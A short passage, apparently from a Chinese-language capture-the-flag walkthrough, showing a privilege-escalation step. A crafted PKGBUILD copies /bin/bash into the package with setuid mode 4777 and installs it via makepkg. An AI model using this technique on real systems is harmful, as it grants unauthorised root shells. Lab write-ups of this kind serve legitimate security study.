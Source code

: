 ![image-20241127004548511.png](assets/0635-BlockBlock/image-20241127004548511.png)

所以使用的时候需要调用环境变量 $pkgdir

```Plain Text
cat << EOF > PKGBUILD
pkgname=pwned
pkgver=1.2
pkgrel=3
arch=(x86_64)
package() {
	cp /bin/bash \$pkgdir/shell
	chmod 4777 \$pkgdir/shell
}
EOF
makepkg -si --noconfirm
```
